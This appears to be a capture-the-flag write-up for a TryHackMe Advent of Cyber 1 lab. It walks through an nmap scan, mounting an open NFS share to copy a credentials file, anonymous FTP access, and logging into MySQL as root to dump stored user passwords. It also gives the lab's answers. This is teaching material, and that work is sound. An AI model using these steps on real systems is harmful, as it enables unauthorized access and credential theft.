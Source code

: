 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 11
### References
* MuirlandOracle. (2020, January 6). MuirlandOracle. MuirlandOracle’s Blog. https://muirlandoracle.co.uk/2020/01/06/tryhackme-christmas-2019-challenge-write-up/
## Reconnaissance
```bash
$ sudo nmap -sV -vv -p- 10.10.26.232
PORT      STATE SERVICE  REASON          VERSION
21/tcp    open  ftp      syn-ack ttl 252 vsftpd 3.0.2
22/tcp    open  ssh      syn-ack ttl 252 OpenSSH 7.4 (protocol 2.0)
111/tcp   open  rpcbind  syn-ack ttl 252 2-4 (RPC #100000)
2049/tcp  open  nfs_acl  syn-ack ttl 252 3 (RPC #100227)
3306/tcp  open  mysql    syn-ack ttl 252 MySQL 5.7.28
20048/tcp open  mountd   syn-ack ttl 252 1-3 (RPC #100005)
40603/tcp open  nlockmgr syn-ack ttl 252 1-4 (RPC #100021)
52881/tcp open  status   syn-ack ttl 252 1 (RPC #100024)
Service Info: OS: Unix
```
## What is the password inside the `creds.txt` file?
1. Mount the NFS drive to a local directory:
```bash
$ mkdir $(pwd)/nfs
$ sudo mount 10.10.26.232:/opt/files $(pwd)/nfs
```
2. Copy `creds.txt`:
```bash
$ cp nfs/creds.txt $(pwd)
$ sudo umount nfs
$ rmdir nfs
```
3. Read `creds.txt`:
```bash
$ cat creds.txt
the password is securepassword123
```
**Answer**: `securepassword123`
## What is the name of the file running on port 21?
1. Login to FTP anonymously:
```bash
$ ftp 10.10.26.232 
Connected to 10.10.26.232.
220 (vsFTPd 3.0.2)
Name: anonymous
Password: anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
1. Get `file.txt`:
```bash
ftp> binary
200 Switching to Binary mode.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0              39 Dec 10  2019 file.txt
drwxr-xr-x    2 0        0               6 Nov 04  2019 pub
d-wx-wx--x    2 14       50              6 Nov 04  2019 uploads
-rw-r--r--    1 0        0             224 Nov 04  2019 welcome.msg
ftp> get file.txt
```

**Answer**: `file.txt`
## What is the password after enumerating the database?
1. From `file.txt`:
```
remember to wipe mysql:
root
ff912ABD*
```
2. Login to MySQL with username `root` and password `ff912ABD*`:
```bash
$ mysql -h 10.10.26.232 -u root -p
Enter password: ff912ABD*
```
3. Show databases and use the `data` database:
```sql
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| data               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
MySQL [(none)]> use data;
```
4. show tables and select all data from the `USERS` table:
```sql
MySQL [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| USERS          |
+----------------+
MySQL [data]> select * from USERS;
+-------+--------------+
| name  | password     |
+-------+--------------+
| admin | bestpassword |
+-------+--------------+
```

**Answer**: `bestpassword`